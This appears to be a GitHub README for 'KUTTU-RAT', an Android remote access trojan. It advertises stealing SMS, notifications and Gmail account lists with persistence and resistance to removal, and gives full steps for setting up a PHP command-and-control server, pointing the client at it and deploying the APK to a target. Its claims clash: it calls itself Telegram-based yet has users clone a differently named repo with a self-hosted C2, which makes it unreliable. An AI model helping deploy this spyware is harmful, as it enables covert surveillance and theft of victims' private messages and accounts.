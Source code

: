 <p align="center">
  <img width="250" height="250" src="https://media3.giphy.com/media/XALwMpWaCJ5gr4Fcps/giphy.gif?cid=6c09b952upcyl1meas3obbs87sia3e1etx3x9i8ef68mxvwq&ep=v1_internal_gif_by_id&rid=giphy.gif&ct=s">
</p>
<h1 align="center">KUTTU-RAT</h1><p align="center">
<b>⚠️Disclaimer : This software is meant for educational purposes only. I'm not responsible for any malicious use of the app.
</p>   

<p align=center>  
<a href=https://www.instagram.com/ashwin_hackr?igsh=MXZxbWVwcWs3bHZuMA==><img src="https://img.shields.io/badge/Author-Ashwin-red.svg?style=for-the-badge&label=Author" /></a>

<img src="https://img.shields.io/badge/Version-1.0-brightgreen?style=for-the-badge" >
</p>   


### Features
- Get all gmail list(List of all Gmail accounts installed on mobile phones)
- Read all incoming notifications any apps(Whatsapp,Instagram,etc)
- Read all incoming SMS
- Working all latest android versions(10 to 15)
- No need port forwarding
- Telegram based rat
- Cannot delete.
- Persistence

[![Tutorial Video](https://img.youtube.com/vi/ykOx19hAaD4/0.jpg)](https://youtu.be/ykOx19hAaD4)

### Installation
- Clone repository
  ```console
  git clone https://github.com/Tomiwa-Ot/moukthar.git
  ```
- Install php, composer, mysql, php-mysql driver, apache2 and a2enmod
- Move server files to ```/var/www/html/``` and install dependencies
  ```console
  mv moukthar/Server/* /var/www/html/
  cd /var/www/html/c2-server
  composer install
  cd /var/www/html/web-socket/
  composer install
  cd /var/www
  chown -R www-data:www-data .
  chmod -R 777 .
  ```
  The default credentials are username: ```android``` and password: ```android```
- Create new sql user
  ```mysql
  CREATE USER 'android'@'localhost' IDENTIFIED BY 'your-password';
  GRANT ALL PRIVILEGES ON *.* TO 'android'@'localhost';
  FLUSH PRIVILEGES;
  ```
- Set database credentials in ```c2-server/.env``` and ```web-socket/.env```
- Execute ```database.sql```
- Start web socket server or deploy as service in linux
  ```console
  php Server/web-socket/App.php
  # OR
  sudo mv Server/websocket.service /etc/systemd/system/
  sudo systemctl daemon-reload
  sudo systemctl enable websocket.service
  sudo systemctl start websocket.service
  ```
- Modify ```/etc/apache2/sites-available/000-default.conf```
  ```console
  <VirtualHost *:80>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html/c2-server
        DirectoryIndex app.php
        Options -Indexes

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
  </VirtualHost>

  ```
- Modify ```/etc/apache2/apache2.conf```
  ```xml
    Comment this section
    #<Directory />
    #       Options FollowSymLinks
    #       AllowOverride None
    #       Require all denied
    #</Directory>

   Add this
    <Directory /var/www/html/c2-server>
        Options -Indexes
        DirectoryIndex app.php
        AllowOverride All
        Require all granted
    </Directory>
  ```
- Increase php file upload max size ```/etc/php/*.*/apache2/php.ini```
  ```ini
  ; Increase size to permit large file uploads from client
  upload_max_filesize = 128M
  ; Set post_max_size to upload_max_filesize + 1
  post_max_size = 129M
  ```
- Set web socket server address in <script> tag in ```c2-server/src/View/home.php``` and ```c2-server/src/View/features/files.php```
  ```console
  const ws = new WebSocket('ws://IP_ADDRESS:8080');
  ```
- Restart apache using the command below
  ```console
  sudo a2enmod rewrite && sudo service apache2 restart
  ```
- Set C2 server and web socket server address in client ```functionality/Utils.java```
  ```java
  public static final String C2_SERVER = "http://localhost";

  public static final String WEB_SOCKET_SERVER = "ws://localhost:8080";
  ```
- Compile APK using Android Studio and deploy to target

### Screenshots
![Login](screenshots/login.png)
![Dashboard](screenshots/c2.png)
![Installed Apps](screenshots/apps.png)
![Camera](screenshots/camera.png)
![Contacts](screenshots/contacts.png)
![Files](screenshots/files.png)
![Notifications](screenshots/notifications.png)
![SMS](screenshots/sms.png)
![Video](screenshots/video.png)

### TODO
- Auto scroll logs on dashboard
- Screenshot not working
- Image/Video capturing doesn't work when application isn't in focus
- Downloading files in app using DownloadManager not working
- Listing constituents of a directory doesn't list all files/folders

